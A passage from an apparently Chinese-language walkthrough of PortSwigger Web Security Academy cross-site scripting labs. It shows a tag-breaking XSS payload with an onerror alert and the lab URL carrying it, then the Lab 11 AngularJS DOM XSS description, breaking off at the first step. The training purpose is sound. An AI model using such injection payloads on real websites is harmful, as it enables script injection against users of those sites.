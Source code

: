 接下来要闭合 `</select>` 标签

```
"></select><img src=1 onerror=alert(1)>
```

```http
https://0ae000bb03b30d58804f556100330053.web-security-academy.net/product?productId=1&storeId="></select><img src=1 onerror=alert(1)>
```

## Lab11

Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in a [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection) expression within the search functionality.

AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the `ng-app` attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded.

To solve this lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that executes an AngularJS expression and calls the `alert` function.

```
实验11：带尖括号和双引号的AngularJS表达式中的DOM XSS HTML编码
信息：

本实验在搜索功能的AngularJS表达式中包含一个基于DOM的跨站点脚本漏洞。

AngularJS是一个流行的JavaScript库，它扫描包含ng-app属性（也称为AngularJS指令）的HTML节点的内容。将指令添加到HTML代码中后，可以在双大括号内执行JavaScript表达式。此技术在编码尖括号时很有用。

完成实验：执行跨站点脚本攻击，该攻击执行AngularJS表达式并调用alert函数

```

### 步骤

查看页面源代码，发现随机字符串包含在ng-app指令中
